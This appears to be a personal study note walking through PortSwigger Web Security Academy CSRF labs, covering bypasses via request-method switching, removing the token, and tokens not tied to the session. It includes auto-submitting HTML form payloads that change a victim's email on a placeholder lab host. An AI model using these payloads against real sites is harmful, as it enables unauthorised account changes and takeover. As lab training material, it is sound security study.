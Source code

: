 Methodology already shows how to do this one, used this one as reference

### CSRF where token validation depends on request method

- send update email from signed in user
- send to repeater 
- notice that changes to csrf token has our request rejected
- select `change request method` in repeater and send and notice csrf token no longers gets verified
- now follow methodology of right clicking and sending to `Generate CSRF PoC` on the get request

OR

- in exploit server craft this and store, the view exploit and check it works to change your email

```
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

- then deliver to victim

### CSRF where token validation depends on token being present

- again simple example will be updating a users email, sign in and do so to get the request in burp
- observe csrf value is in the request and tampering it doesn't let our request go through
- delete the csrf parameter completely, and notice that you can now get the request to happen
- right click and `generate csrf poc` for this request, enable the option in the generated poc to include an auto-submit script and click `Regenerate`  

OR

- use this code in exploit server

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```

- go to exploit server, paste above code and click store
- view it for yourself that it works, then deliver to victim

### CSRF where token is not tied to user session

You have 2 account creds for this attack type 

- you will notice if you sign in with one account and update the email, then attempt it again on the other account but intercepting and changing the csrf token fromthe first account it still works.
- let's create a CSRF poc from the very first methodology and send but include your own users csrf token
